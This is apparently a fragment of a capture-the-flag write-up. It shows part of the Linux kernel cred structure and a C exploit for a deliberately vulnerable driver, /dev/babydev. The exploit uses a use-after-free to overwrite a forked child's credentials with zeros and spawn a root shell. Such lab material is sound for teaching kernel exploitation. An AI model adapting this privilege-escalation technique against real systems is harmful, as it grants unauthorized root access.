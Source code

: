 ```cpp
	struct key __rcu *session_keyring; /* keyring inherited over fork */
	struct key	*process_keyring; /* keyring private to this process */
	struct key	*thread_keyring; /* keyring private to this thread */
	struct key	*request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
	void		*security;	/* subjective LSM security */
#endif
	struct user_struct *user;	/* real user ID subscription */
	struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
	struct group_info *group_info;	/* supplementary groups for euid/fsgid */
	struct rcu_head	rcu;		/* RCU deletion hook */
};
```

Exploit：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

int main() {
    int fd1, fd2, pid;
    fd1 = open("/dev/babydev", 2);
    fd2 = open("/dev/babydev", 2);
    ioctl(fd1, 0x10001, 0xa8); // 修改babydev_struct.device_buf_len的长度为cred结构体的长度
    close(fd1); // 释放第一次的内存

    pid = fork(); // 创建进程
    if (pid < 0) {
        puts("[!] fork error...");
        exit(-1);
    } else if (pid == 0) { // 子进程
        uint8_t fake_cred[30];
        memset(fake_cred, 0, sizeof(fake_cred));
        write(fd2, fake_cred, 28);
        if (getuid() == 0) {
            puts("[+] get root!");
            system("/bin/sh");
            exit(0);
        }
    } else {
        wait(NULL);
    }
    close(fd2);
    return 0;
}
```

